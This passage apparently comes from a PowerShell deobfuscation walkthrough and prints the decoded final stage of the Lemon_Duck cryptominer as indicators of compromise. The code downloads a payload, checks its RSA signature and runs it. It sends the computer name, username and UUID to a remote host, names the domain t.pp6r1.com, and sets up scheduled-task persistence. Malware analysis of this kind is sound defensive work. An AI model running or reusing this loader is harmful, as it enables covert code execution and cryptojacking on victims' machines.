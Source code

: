 This script has an explicit `iex` string at the start of it, so, again, we can just separate it and just deobfuscate the rest of the code.

{: style="text-align:center"}
![](/assets/images/powershell-deobfuscation/FinalPayload_Deobf4.gif)

Now we have the final script, which shows some of the IOCs of the Lemon_Duck cryptominer.

```powershell
if(!$v){$v='?rep_'+(Get-Date -Format 'yyyyMMdd')}

$tmps='function a($u){$d=(Ne`w-Obj`ect Net.WebC`lient)."DownloadData"($u);$c=$d.count;if($c -gt 173){$b=$d[173..$c];$p=New-Object Security.Cryptography.RSAParameters;$p.Modulus=[convert]::FromBase64String(''2mWo17uXvG1BXpmdgv8v/3NTmnNubHtV62fWrk4jPFI9wM3NN2vzTzticIYHlm7K3r2mT/YR0WDciL818pLubLgum30r0Rkwc8ZSAc3nxzR4iqef4hLNeUCnkWqulY5C0M85bjDLCpjblz/2LpUQcv1j1feIY6R7rpfqOLdHa10='');$p.Exponent=0x01,0x00,0x01;$r=New-Object Security.Cryptography.RSACryptoServiceProvider;$r.ImportParameters($p);if($r.verifyData($b,(New-Object Security.Cryptography.SHA1CryptoServiceProvider),[convert]::FromBase64String(-join([char[]]$d[0..171])))){I`ex(-join[char[]]$b)}}}$url=''http://''+''U1''+''U2'';a($url+''/a.jsp'+$v+'?''+(@($env:COMPUTERNAME,$env:USERNAME,(get-wmiobject Win32_ComputerSystemProduct).UUID,(random))-join''*''))'

$sa=([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole] "Administrator")
function getRan(){return -join([char[]](48..57+65..90+97..122)|Get-Random -Count (6+(Get-Random)%6))}
$us=@('t.pp6r1.com')
$stsrv = New-Object -ComObject Schedule.Service
$stsrv.Connect()
$uniq_name=$us[0]

try{
$doit=$stsrv.GetFolder("\").GetTask($uniq_name)
}catch{}

if(-not $doit){
	if($sa){
		schtasks /create /ru system /sc MINUTE /mo 120 /tn $uniq_name /F /tr "$uniq_name"
	} else {
		schtasks /create /sc MINUTE /mo 120 /tn $uniq_name /F /tr "$uniq_name"
	}

	foreach($u in $us){
		$i = [array]::IndexOf($us,$u)
```